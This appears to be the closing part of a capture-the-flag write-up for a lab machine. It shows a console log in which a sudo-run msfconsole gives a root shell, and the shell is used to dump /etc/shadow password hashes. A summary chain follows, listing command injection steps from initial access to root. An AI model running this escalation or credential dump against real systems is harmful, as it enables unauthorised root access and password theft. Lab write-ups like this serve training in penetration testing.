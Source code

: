 ```console
msf6 >irb
stty: 'standard input': Inappropriate ioctl for device
[*] Starting IRB shell...
[*] You are in the "framework" object
>> system("/usr/bin/bash")
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux scriptkiddie 5.4.0-65-generic #73-Ubuntu SMP Mon Jan 18 17:25:17 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
cat /etc/shadow | head -n 3
root:$6$RO4wVQ/hyXhjln4S$UQl5o6XSa2USqAM.RT9YwujFhZWriZqEz5We.opH1FLTbDtLfruET9jlKcEEqfxnCb1UxwhcfWJ/2gPJE77Bl.:18632:0:99999:7:::
daemon:*:18474:0:99999:7:::
bin:*:18474:0:99999:7:::
```

## Exploit Chain

port scan -> Werkzeug site with 3 functions -> nmap[x], searchsploit[x], msfvenom with template [y] -> cve: msfvenom APK template command injection -> kid shell -> pwn's script using nmap -> command injection -> pwn shell -> sudo enum: msfconsole -> root shell
